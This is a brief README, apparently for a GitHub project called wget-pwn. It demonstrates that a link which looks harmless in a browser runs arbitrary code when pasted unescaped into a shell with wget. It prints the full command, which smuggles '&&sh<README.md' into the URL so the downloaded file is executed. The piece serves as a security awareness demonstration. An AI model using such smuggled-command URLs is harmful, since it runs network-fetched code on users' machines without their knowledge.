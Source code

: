 wget-pwn
=========


A click on the following link in your browser will only display this readme file.


[README.md](https://raw.githubusercontent.com/markus-perl/wget-pwn/master/master/README.md&&sh%3CREADME.md)


But downloading this link unescaped with wget will execute arbitary code.


    wget --no-check-certificate https://raw.githubusercontent.com/markus-perl/wget-pwn/master/master/README.md&&sh%3CREADME.md
